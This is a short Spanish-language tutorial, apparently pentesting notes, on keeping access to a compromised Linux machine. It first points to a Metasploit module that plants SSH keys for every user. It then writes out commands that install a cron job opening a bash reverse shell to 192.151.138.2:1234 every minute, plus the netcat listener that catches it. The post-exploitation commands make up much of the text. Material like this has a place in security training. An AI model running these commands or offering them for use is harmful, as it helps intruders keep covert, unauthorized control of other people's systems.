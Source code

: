 <h1 align="center">PERSISTENCIA EN LINUX</h1>

## **Persistencia a través de SSH**

Una vez que hemos conseguido vulnerar una máquina Linux, podemos establecer persistencia a través de SSH utilizando Metasploit, siempre y cuando tengamos permiso para editar la carpeta .ssh del usuario.

`use post/linux/manage/sshkey_persistence.`

Este módulo generará automáticamente una clave pública y privada para todos los usuarios del sistema.Establece la opción CREATESSHFOLDER en true para que el módulo cree la carpeta .ssh si no existe y guarde las claves allí.  

El módulo generará las claves y te indicará dónde se guarda la clave privada del usuario actual en tu máquina local

## **Persistencia a través de Cron Jobs**

Si has conseguido acceso a una máquina Linux con un usuario normal, no podrás modificar el archivo /etc/crontab. Sin embargo, puedes modificar el archivo crontab del usuario actual utilizando el comando crontab -l.

Vamos a añadir una tarea cron que ejecute una reverse shell cada minuto.

- `echo "\* \* \* \* \* /bin/bash -c '/bin/bash -i >& /dev/tcp/192.151.138.2/1234 0>&1'" > cron`
- `crontab -i cron`
- `crontab -l`

Deberías ver la línea que ejecuta la reverse shell cada minuto, establece la escucha y conseguirás la shell

`nc -lvnp 1234`
